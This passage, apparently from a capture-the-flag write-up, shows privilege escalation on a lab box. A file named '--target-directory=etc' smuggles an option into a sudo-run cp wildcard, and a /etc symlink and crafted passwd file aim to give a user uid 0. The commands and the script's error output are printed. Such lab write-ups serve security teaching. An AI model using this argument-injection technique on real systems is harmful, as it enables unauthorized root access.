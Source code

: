 The oxdf user is now uid and gid 0, which makes it root. And while passwords are typically hashed and stored in `/etc/shadow`, they are still handled find from the `passwd` file.

Second, I need a `.version` file:

```

bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ echo 1000 > .version

```

Third, I need the `--target-directory` flag as a file:

```

bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ touch -- --target-directory=etc

```

Were I using this flag in a legit `cp` command, I would just say `--target-directory=/etc`, but since I’m injecting it as a filename, and filenames can’t include `/`, I’ll have to point to `etc` in the local directory.

The forth file is a simlink from `./etc` to `/etc`:

```

bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ ln -s /etc

```

That leaves the directory like:

```

bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ ls -la
total 16
drwx------  2 bindmgr bindmgr 4096 Jun 13 23:29  .
drwxrwxrwt 17 root    root    4096 Jun 13 23:27  ..
lrwxrwxrwx  1 bindmgr bindmgr    4 Jun 13 23:29  etc -> /etc
-rw-r--r--  1 bindmgr bindmgr 1698 Jun 13 23:28  passwd
-rw-rw-r--  1 bindmgr bindmgr    0 Jun 13 23:29 '--target-directory=etc'
-rw-rw-r--  1 bindmgr bindmgr    5 Jun 13 23:29  .version

```

Now I’ll run the script:

```

bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ sudo bindmgr.sh 
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.Fk4IdAaCre.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
cp: -r not specified; omitting directory 'etc'
cp: -r not specified; omitting directory '/etc/bind/named.bindmgr/'
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/etc: file not found

```
